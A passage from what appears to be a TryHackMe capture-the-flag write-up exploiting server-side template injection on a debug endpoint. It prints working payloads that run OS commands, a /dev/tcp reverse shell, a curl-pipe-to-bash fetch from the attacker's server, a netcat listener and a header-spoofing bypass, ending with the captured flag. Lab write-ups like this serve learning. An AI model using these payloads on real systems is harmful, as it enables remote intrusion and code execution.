 The ls command was successfully executed. However, retrieving the session cookie by directly typing a command fails, so obtaining a shell on the target machine is necessary.

A reverse shell can be implemented within the template. Since an illegal character check function exists, the reverse shell must avoid using any illegal characters.

	\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("bash -i >& /dev/tcp/<machine ip>/<port> 0>&1").read()+\}\} 

This attempt failed due to the presence of an illegal character (&). Another payload must be created. One approach is to curl the reverse shell from the attacker server and execute it via bash simultaneously.

**Step 1**. Create reverse shell reverse_shell.sh:

	$ echo 'bash -i >& /dev/tcp/<machine ip>/4444 0>&1' > reverse_shell.sh

**Step 2**. start python simple http server on the other terminal.

    $ python3 -m http.server 8888

**Step 3**. curl reverse_shell.sh from our server.

	\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+<machine ip>:8888/ex.sh+|+bash").read()+\}\} 

**Step 4**. start a netcat listener to retrieve reverse_shell connection. 

    $ nc -lnvp 4444


The next step is to repeat the process. First, a valid session cookie is retrieved using this payload.

```
$ curl 'http://<target ip>:7777/debug?debug=\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+<machine ip>:8888/reverse_shell.sh+|+bash").read()+\}\}&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 14:18:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJxdjuEKgjAUhV9lXAgVYjkEK59lMDa96WC5sasVmO_eVv-6Pw7fB-fA3WBAs47QwbYxQnfjStnZLkolGJ032tGXzWrdYuef2HvwMXVKCZ4kVDz4gHOyfo2OiZqLM29aLq5Nd0l3ivjASKhoQuc4TezNjKYpLyPqoazYvsMRgiZ6-jikb0zBpHzV9V8cUopeypityXLJ1GbCAvYPfjZEIg.aMLaLA.yPVy108tPXGksF8mTyN6dMtI1D4; HttpOnly; Path=/
Connection: close
```
Next, cpoy session cookie and paste into the payload.

```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJxdjuEKgjAUhV9lXAgVYjkEK59lMDa96WC5sasVmO_eVv-6Pw7fB-fA3WBAs47QwbYxQnfjStnZLkolGJ032tGXzWrdYuef2HvwMXVKCZ4kVDz4gHOyfo2OiZqLM29aLq5Nd0l3ivjASKhoQuc4TezNjKYpLyPqoazYvsMRgiZ6-jikb0zBpHzV9V8cUopeypityXLJ1GbCAvYPfjZEIg.aMLaLA.yPVy108tPXGksF8mTyN6dMtI1D4'
```

Then it can be observed that netcat has connected and a shell has been obtained.
```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
ayham@482cbf2305ae:/app$ cd ..
cd ..
ayham@482cbf2305ae:~$ ls
ls
flag1.txt
ayham@482cbf2305ae:~$ cat flag1.txt
cat flag1.txt
THM{LFI_1s_Pr33Ty_Aw3s0Me_1337}
```
